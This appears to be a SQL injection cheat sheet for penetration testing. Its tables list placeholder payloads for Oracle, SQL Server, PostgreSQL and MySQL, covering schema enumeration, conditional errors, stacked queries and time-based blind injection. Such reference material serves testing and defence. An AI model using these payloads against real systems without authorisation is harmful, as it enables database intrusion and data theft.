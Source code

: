 ### DATABASE CONTENT

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SELECT * FROM all_tables  SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`|
|Microsoft|`SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE' `|
|PostgreSQL|`SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`|
|MySQL|`SELECT * FROM information_schema.tables  SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`|

### CONDITIONAL ERROR

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

### MULTIPLES QUERYS

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`Does not support batched queries.`|
|Microsoft|`QUERY-1-HERE; QUERY-2-HERE`|
|PostgreSQL|`QUERY-1-HERE; QUERY-2-HERE`|
|MySQL|`QUERY-1-HERE; QUERY-2-HERE`|

### TIME DELAYS

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`dbms_pipe.receive_message(('a'),10)`|
|Microsoft|`WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT pg_sleep(10)`|
|MySQL|`SELECT sleep(10)`|

### CONDICIONAL TIME DELAYS

|DBMS|PAYLOAD|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`|

